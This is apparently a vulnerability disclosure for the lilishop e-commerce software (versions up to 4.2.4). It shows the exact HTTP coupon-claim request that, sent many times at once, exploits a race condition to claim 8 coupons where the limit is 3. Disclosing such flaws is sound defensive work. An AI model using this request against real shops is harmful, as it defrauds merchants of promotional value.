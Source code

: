 ### Target

https://github.com/lilishop/lilishop

### Version

<=4.2.4

### Description

Attackers can break through the limitation of only being able to claim coupons once by grabbing the data packet for coupon redemption and using high concurrency to send this data packet to achieve multi coupon redemption.

### Details

```
GET /buyer/promotion/coupon/receive/1844275265607499778 HTTP/1.1
Host: 
Connection: keep-alive
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Accept: application/json, text/plain, */*
accessToken: 
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
sec-ch-ua-platform: "Windows"
Origin: 
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: 
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```

According to the prompt, each user can only receive three coupons for this coupon. By sending a high concurrency data packet, we successfully exceeded the limit and received 8 coupons.

The restrictions are as follows:

![image-20241010214145660](image-20241010214145660.png)

The collection results are as follows:

![image-20241010214354987](image-20241010214354987.png)